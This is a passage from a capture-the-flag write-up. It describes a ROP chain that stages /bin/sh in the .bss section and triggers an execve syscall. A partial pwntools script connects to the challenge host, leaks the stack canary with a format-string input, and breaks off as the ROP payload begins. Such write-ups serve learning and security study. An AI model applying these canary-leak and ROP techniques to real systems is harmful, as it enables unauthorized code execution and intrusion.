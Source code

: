 ![Sections](./Photos/sections.png)

After looking through the sections of the file I decided to use the bss section since we had write access to it and it was fairly large. In the end my rop chain moved /bin/sh into the memory region and saved the address where we stored the string into ebx. The chain then moved 0x21 into eax and decremented eax 22 times since we could not simply put 11 into eax as it was an illegal character. And finally, we performed the syscall. The script for this ended up being:

```py
# import pwntools
from pwn import *

# open the remote connection
s = remote('0.cloud.chals.io', 11317)

# print the text
print(s.recvuntil(b'date.\n'))

# send input for canary
s.sendline(b'%39$p')

# parse the canary
canary = p32(int(s.recvline().split(b': 0x')[1][:-1], 16))

# print the text
print(s.recvuntil(b'date.\n'))

# intialize the string
rop = b''

```